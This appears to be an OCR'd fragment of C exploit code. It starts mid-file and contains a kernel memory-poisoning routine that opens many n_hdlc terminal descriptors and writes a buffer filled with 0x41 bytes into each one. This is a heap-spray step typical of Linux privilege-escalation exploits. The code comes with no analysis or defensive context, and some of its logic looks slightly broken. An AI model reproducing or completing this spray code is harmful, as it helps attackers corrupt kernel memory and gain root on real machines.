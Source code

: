 ```c
	}
	return 0;
}

static int kern_mem_poison(char *buf, size_t len)
{
	int err;

	if ((len < 4096) || (len > 65536)) {
		return -1;
	}

	struct rlimit rlim;
	err = max_open_files(&rlim);
	if (err == -1) {
		return -1;
	}

	int fd[rlim.rlim_cur];
	long i;
	for (i = 0; i < rlim.rlim_cur; i++) {
		if (!get_memory_avail())
			if (mem_avail < (len*2))
				break;
		fd[i] = open_n_hdlc();
		if (fd[i] == -1) {
			break;
		}

		err = write(fd[i], buf, len);
		if (err == -1) {
			break;
		}
	}

	if (i < rlim.rlim_cur)
		for (long j = i; j < rlim.rlim_cur; j++)
			fd[j] = -1;

	for (i = 0; i < rlim.rlim_cur; i++) {
		close(fd[i]);
		fd[i] = -1;
	}

	return 0;
}

#define	POISON_VALUE 0x4141414141414141
int main(int argc, char *argv[])
{
	char buf[4096];
	unsigned long *addr = buf;
	for (int i = 0; i < 4096 / 8; i++) {
		addr[i] = POISON_VALUE;
	}
	kern_mem_poison(buf, 4096);
	return 0;
}
```
